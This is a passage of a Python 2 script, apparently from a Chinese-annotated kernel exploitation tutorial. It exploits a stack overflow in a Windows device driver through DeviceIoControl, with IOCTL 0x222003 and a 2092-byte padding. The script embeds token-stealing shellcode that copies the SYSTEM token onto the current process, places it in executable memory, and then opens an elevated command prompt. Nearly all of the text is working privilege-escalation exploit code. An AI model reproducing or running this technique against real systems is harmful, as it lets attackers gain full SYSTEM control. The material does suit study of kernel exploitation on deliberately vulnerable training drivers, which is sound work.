 ```python
    print "*** Couldn't get Device Driver handle."
    sys.exit(0)

shellcode = ""
shellcode += bytearray(
	"\x60"                                # pushad  
	"\x33\xC0"                            # xor         eax,eax  
	"\x64\x8B\x80\x24\x01\x00\x00"        # mov         eax,dword ptr fs:[eax+124h]  
	"\x8B\x40\x50"                        # mov         eax,dword ptr [eax+50h]  
	"\x8B\xC8"                            # mov         ecx,eax  
	"\xBA\x04\x00\x00\x00"                # mov         edx,4
	"\x8B\x80\xB8\x00\x00\x00"            # mov         eax,dword ptr [eax+0B8h]  
	"\x2D\xB8\x00\x00\x00"                # sub         eax,0B8h  
	"\x39\x90\xB4\x00\x00\x00"            # cmp         dword ptr [eax+0B4h],edx  
	"\x75\xED"                            # jne         SearchSystemPID  
	"\x8B\x90\xF8\x00\x00\x00"            # mov         edx,dword ptr [eax+0F8h]  
	"\x89\x91\xF8\x00\x00\x00"            # mov         dword ptr [ecx+0F8h],edx  
	"\x61"                                # popad  
	"\x33\xC0"                            # xor         eax,eax  
	"\x83\xC4\x14"                        # add         esp,14h  
	"\x5D"                                # pop         ebp  
	"\xC2\x08\x00"                        # ret         8
)

# 0x3000 等同于MEM_COMMIT | MEM_RESERVE, 即预留并提交该块内存
# 0x40 指示了分配的页面的保护属性,其值等同于PAGE_EXECUTE_READWRITE,即可读可写可执行 
ptr = kernel32.VirtualAlloc(c_int(0),c_int(len(shellcode)),c_int(0x3000),c_int(0x40))
buff = (c_char * len(shellcode)).from_buffer(shellcode)
# 把shellcode 复制到分配的内存中
kernel32.RtlMoveMemory(c_int(ptr),buff,c_int(len(shellcode)))
shellcode_final = struct.pack("<L",ptr)

buf = "A" * 2092 + shellcode_final
bufLength = len(buf)

kernel32.DeviceIoControl(hevDevice, 0x222003, buf, bufLength, None, 0, byref(c_ulong()), None)

Popen("start cmd", shell = True)
```
